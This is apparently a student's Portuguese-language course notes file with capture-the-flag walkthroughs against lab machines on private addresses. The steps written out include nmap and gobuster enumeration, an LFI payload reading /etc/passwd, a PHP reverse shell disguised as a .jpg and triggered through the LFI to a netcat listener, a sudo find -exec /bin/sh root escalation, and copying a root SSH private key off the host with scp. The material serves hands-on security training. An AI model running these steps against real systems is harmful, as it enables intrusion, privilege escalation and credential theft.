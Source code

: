 # cyber_sos

https://tiagoalcan.notion.site/Passo-a-passo-Check-06-29bd7765e27380a78fd9c793c9ca7ccf

cp3
burble
hydra
chaves privadas e publicas
netcat?
printf?

nmap -sV 192.168.56.102 (servidor do owasp)
# lista vulnerabilidades do servidor, usar lista do thiago para testar as vulnerabilidaderqwiorj
https://tiagoalcan.notion.site/Cybersecurity-FOR-DEV-197d7765e27380d98603e484416d4a49?source=copy_link

se ter =, permite parametro a url... o exemplo da aula foi um tal de lang=, ai o professor tuchou language=/../../etc/passwd

RFI/LFI ataque de colocar arquivo dentro da host serve pra entrar na host e abrir portas etc
Colocamos um arquivo no parametro da requisição
o comando gobuster olha tudo que tem de importante no servidor

cd /usr/share/wordlists/dirb                           —acessar essa pasta
gobuster dir -u 192.168.56.102/assets/ -w big.txt

listando arquivos dentro da host:

Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 218]
/.htaccess            (Status: 403) [Size: 218]
/.svn                 (Status: 403) [Size: 213]
/1                    (Status: 200) [Size: 72580]
/2                    (Status: 200) [Size: 91665]
/4                    (Status: 200) [Size: 24700]
/3                    (Status: 200) [Size: 117977]
/alpha                (Status: 200) [Size: 3271]
/application          (Status: 200) [Size: 50419]
/clear                (Status: 200) [Size: 509]
/company              (Status: 200) [Size: 1191]
/email                (Status: 200) [Size: 1511]
/fonts                (Status: 301) [Size: 243] [--> http://192.168.56.102/assets/fonts/]                                                                 
/key                  (Status: 200) [Size: 1259]
/loading              (Status: 200) [Size: 1849]
/logo                 (Status: 200) [Size: 3028]
/profile              (Status: 200) [Size: 5015]
/sorting              (Status: 200) [Size: 1121]
Progress: 20469 / 20469 (100.00%)

link do acesso:
http://192.168.56.102/bWAPP/rlfi.php?language=/../../etc/passwd

192.168.56.102/language.php?lang=../../../etc/passwd (CORRETA DA PROVA)

rlfi.php é o arquivo dentro do owasp para testarmos a invasão... ai sempre usamos o language e testamos o passwd


### =====
# GS:
1. netdiscover -i eth0 -P -r (ip do cliente, kali aqui)
2. 192.168.56.102/language.php?lang=../../../etc/passwd (CORRETA DA PROVA, a gente achou um link com ?blabla=, ai muda o valor depois do blabla)
3. acima retorna o arquivo de senhas do servidor, significa que da pra fazer LFI
4. nmap -p- -sV 192.168.56.102 (servidor) (listar as portas)

# webshells, acessar o php, mas tem outros
1. cd /usr/share/webshells/ (sao listas de backdoors (virus) que o kali deixa disponivel, backdoor significa entrar sem login)
2. cd php
3. nano php-reverse-shell.php
## (transformando esse arquivo numa imagem, para fazer o upload do lfi)
1. cp php-reverse-shell.php revshell.php.jpg
2. nano revshell.php.jpg
3. o arquivo fica em "other location" na ui de folder
4. dentro do arquivo, mudar a linha escrito "ip" (para o ip do cliente kali), o port o professor deixou 1234 quieto
5. gobuster dir -u 192.168.56.102 -w /usr/share/wordlists/dirb/big.txt (ip do servidor) (gobuster mapeia a porra toda de pastas) (o retorno dele é varias pastas, o professor entrou numa de uploads, devemos procurar o arquivo que a gente fez o upload)
6. nc -nlvp 1234  (abrir uma porta no kali (cliente) pra esperar o servidor responder)

(sõ é possivel fazer o backdoor atraves da falha, que é pegar o paramentro que mudamos para /etc/passwd/ bla bla e mudamos para ./../../var/www/html/uploads/revshell.php.jpg, que nosso arquivo)
url final: http://192.168.56.102/language.php?lang=../../../var/www/html/uploads/revshell.php.jpg
simplificada: http://192.168.56.102/language.php?lang=/uploads/revshell.php.jpg

(depois de abrir a url acima que é o arquivo que fizemos o upload, nosso terminal com nc -nvlp 1234 vai entrar no servidor, ai fazemos o comando abaixo)
7. python3 -c "import pty;pty.spawn('/bin/bash')" (se nao vai dar erro que nao é um terminal)
8. www-data@bassam-aziz (estamos no usuario www-data, usando a maquina bassam-aziz)

9. cd /home
10. ls (para ver o nome dos usuarios)
11. cd bassam
12. ls (entrega a flag de usuario dentro do bassam, user.txt)
13. cat user.txt (nao vai ter permissao)
14. cd /var/www/html (pasta do apache servidor web)
15. ls (acha a pasta uploads)
16. cd uploads
17. ls (ver o jpg)
18. cd ../ (volta pro apache)
19. ls (descobre um supersecret-for-aziz) (nome do pc)
20. cd supersecret-for-aziz
21. ls (bassam-pass.txt) (nome do pc)
22. cat bassam-pass.txt (mostra a senha, copia usando o mouse)
23. su bassam (nome do usuario)
24. cola a senha com botao direito e entra no usuario bassam

# (dentro do usuario)
26. cd /home/bassam (home do bassam)
27. ls (cacar o user.txt)
28. cat user.txt (primeira flag, agora com permissao no bassam)
29. sudo -l (pra tentar entrar como sudo, ou seja, administrador)
30. cola a senha que pegou do cat bassam-pass.txt (da erro)
31. site maluco, professor pegou esse comando
  32. sudo find . -exec /bin/sh \; -quit
33. whoami (checar se somos root mesmo)
34. cd /root
35. ls (mostra a flag, arquivo flag.txt)
37. cat flag.txt
(mostra a flag final)


# qwe
0. dou nmap -p- -sV 192.168.56.111 para descobrir as portas abertas
1. faço cluster bomb no login e senha com o sqlinjection.txt
2. descubro o login e senha pelo :8080 no response e jogo na url
3. dou ssh -p 2299 green@192.168.56.111 para descobrir entrar com o login q descobri e coloco a senha que descobri
4. dou ls
5. bash flag.sh para pegar a primeira flag
6. cd .ssh e ls para ver os arquivos das chaves
7. dou o comando scp -P 2299 green@192.168.56.111:~/.ssh/id_rsa_root ~/.ssh/id_rsa_root e coloco a senha para passar para meu kali a chave privada para entrar como root
8. ssh -i /home/kali/.ssh/id_rsa_root -p 2299 root@192.168.56.111\
9. logo como root e dou ls descubro a flag.sh de novo
10. dou bash flag.sh e acho a ultima flag
